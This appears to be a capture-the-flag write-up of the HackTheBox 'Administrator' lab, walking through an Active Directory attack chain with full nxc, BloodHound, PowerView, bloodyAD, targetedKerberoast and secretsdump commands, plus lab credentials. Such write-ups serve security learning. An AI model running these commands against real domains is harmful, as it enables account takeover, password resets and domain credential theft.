# Administrator -- HackTheBox (write-up)

**Difficulty:** Medium
**Box:** Administrator (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-08-17

---

## TL;DR

### AD chain: Olivia -> Michael (GenericAll) -> Benjamin (ForceChangePassword via bloodyAD) -> Emily (PasswordSafe) -> Ethan (targeted Kerberoast) -> DA via secretsdump.
---
## Target info

- Host: `10.10.11.42`
- Domain: `administrator.htb`
---
## Enumeration



Found users:



Can also enumerate via:

```bash
nxc smb administrator.htb -u "Olivia" -p "ichliebedich" --rid-brute | grep SidTypeUser
```



Collected BloodHound data:

```bash
nxc ldap administrator.htb -u Olivia -p ichliebedich --bloodhound --collection All --dns-tcp --dns-server 10.10.11.42
```

---
## Attack chain

Checked first-degree outbound control on Olivia:



Michael leads to Benjamin, who has no outbound controls -- worth targeting:



Used PowerView to confirm ACLs:

```powershell
. .\PowerView.ps1

$Olivia = Get-ADUser -Identity "olivia" -Properties ObjectSID
```



```powershell
$MichaelACL = Get-DomainObjectAcl -Identity "CN=Michael Williams,CN=Users,DC=administrator,DC=htb" -ResolveGUIDs
$MichaelACL | Where-Object { $_.SecurityIdentifier -eq $Olivia.ObjectSID -and $_.ActiveDirectoryRights -match "GenericAll" } | Select-Object IdentityReference, ActiveDirectoryRights

$BenjaminACL | Where-Object { $_.SecurityIdentifier -eq $Michael.ObjectSID -and $_.ActiveDirectoryRights -match "ForceChangePassword" } | Select-Object IdentityReference, ActiveDirectoryRights

$UsersAcls = Get-DomainObjectAcl -SearchBase "CN=Users,DC=administrator,DC=htb" -ResolveGUIDs
```



```powershell
$UsersAcls | Where-Object { $_.SecurityIdentifier -eq $Olivia.ObjectSID } | Select-Object IdentityReference, ObjectDN, ActiveDirectoryRights | Format-Table -AutoSize
```



Checked Benjamin's extended rights -- S-1-1-0 (Everyone) has User-Change-Password:

```powershell
(Get-DomainObjectAcl -Identity "CN=Benjamin Brown,CN=Users,DC=administrator,DC=htb" -ResolveGUIDs) | Where-Object { $_.ActiveDirectoryRights -match "ExtendedRight" -and $_.ObjectAceType -match "User-Change-Password" } | Format-Table SecurityIdentifier, IdentityReference, ActiveDirectoryRights, ObjectAceType -AutoSize
```



**net user command didn't work for changing Benjamin's password directly.**



Changed Michael's password first (Olivia has GenericAll over Michael), then used bloodyAD from Michael to change Benjamin's:

```bash
bloodyAD -u "Michael" -p "Password123" -d "Administrator.htb" --host "10.10.11.42" set password "Benjamin" "12345678"
```



bloodyAD works because it uses LDAP to exploit the User-Change-Password extended right, unlike `net user` which relies on local account privileges.





Found a PasswordSafe database. Installed and opened it:

```bash
sudo apt install passwordsafe
pwsafe
```

Extracted creds:

- `alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw`
- `emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb`
- `emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur`



Emily has write permissions over Ethan -- targeted Kerberoasting.

Added `administrator.htb` and `dc.administrator.htb` to `/etc/hosts`.

```bash
targetedKerberoast -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "Administrator.htb" --dc-ip 10.10.11.42
```



Cracked Ethan's hash, then secretsdump:

```bash
secretsdump.py "Administrator.htb/ethan:limpbizkit"@"dc.Administrator.htb"
```



---
## Lessons & takeaways

- BloodHound first-degree outbound controls reveal the full chain
- bloodyAD can exploit LDAP-based extended rights that `net user` can't
- targetedKerberoast sets a temporary SPN, grabs the hash, then removes it
- PowerView confirms ACLs manually when BloodHound isn't enough
---
